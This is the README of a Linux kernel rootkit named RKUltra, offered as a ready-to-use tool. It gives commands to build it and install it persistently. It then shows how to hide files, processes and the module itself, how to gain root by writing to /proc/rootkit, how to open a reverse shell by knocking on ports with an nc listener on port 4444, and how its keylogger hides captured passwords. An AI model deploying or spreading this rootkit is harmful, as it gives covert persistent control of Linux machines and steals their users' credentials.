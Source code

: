
# RKUltra

> A full-featured Linux 5.4 LKM Rootkit (Tested on Ubuntu 20.04)

# Dependencies

In order to build, the following packages are required:

- build-essential
- linux-headers

`sudo apt install build-essential linux-headers-$(uname -r)`

Alternatively, a Vagrantfile is provided for Ubuntu 20.04 with dependencies installed [here](Vagrantfile).

# Installation and Use

An installer script has been provided to help you get up and running, to use simply run the following

```bash
sudo ./installer.sh install
```

This will make and install the rootkit persistently, by dropping the compiled `.ko` into a folder in `/lib/modules/` and adding it to `/etc/modules`

From here, the rootkit is now active. By default it is interfacable via a procfile located in `/proc/rootkit` and hidden from the user

# Features

## Toggle hiding

In order to toggle all file/folder/process/module hiding, you can write `toggle` to the procfile interface

```bash
$ lsmod | grep rootkit
$ echo toggle > /proc/rootkit 
$ lsmod | grep rootkit
rootkit                24576  0
```

## Elevate permissions

For any process to elevate to running with root permissions, all it has to do is write `root` into the procfile

```bash
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$ echo root > /proc/rootkit
$ id
uid=0(root) gid=0(root) groups=0(root)
```

## Hide a process

Writing `hide<PID>` to the procfile will hide that process and it's children from all other processes on the system, while it will remain visible to you.

Process 1
```bash
$ echo $$
86711
$ echo hide$$ > /proc/rootkit
$ ps aux | grep $$ # Process remains visible to self
vagrant    86711  0.0  0.0   9836  4232 pts/0    Ss   14:09   0:00 /bin/bash
```
Process 2
```bash
$ ps aux | grep 86711 # Process cannot be seen by others
$ echo toggle > /proc/rootkit  
$ ps aux | grep 86711 # Can be seen when hiding is disabled
vagrant    86711  0.0  0.0   9836  4232 pts/0    Ss+  14:09   0:00 /bin/bash
```

The opposite can be done using `unhide`

## Remote access

In order to trigger a reverse shell, you can knock on a series of ports: [5295, 9257, 7369]. Upon doing this, a reverse shell to your IP on port 4444 will be opened.

Listen for connection
```bash
$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.99.10.
Ncat: Connection from 192.168.99.10:49748.
root@vagrant:/#
```
Knock ports example
```bash
$ knock 192.168.99.10 5295
$ knock 192.168.99.10 9257
$ knock 192.168.99.10 7369
```

## Keystroke Logging

All keystrokes are logged to a file in `/usr/rk_file_keylog` - the file in as such because any file with the prefix `rk_file_` will be hidden from directory listing.

```bash
$ sudo tail -f /usr/rk_file_keylog
Starting keylogger
test_user
PaSsWoRd
<CTRL>c
<CTRL>z
<CAPSLOCK>AAAAAAA
<CAPSLOCK>calm
```
# Removal
The following will unhide the module and remove it from the system
```bash
sudo ./installer.sh remove
```
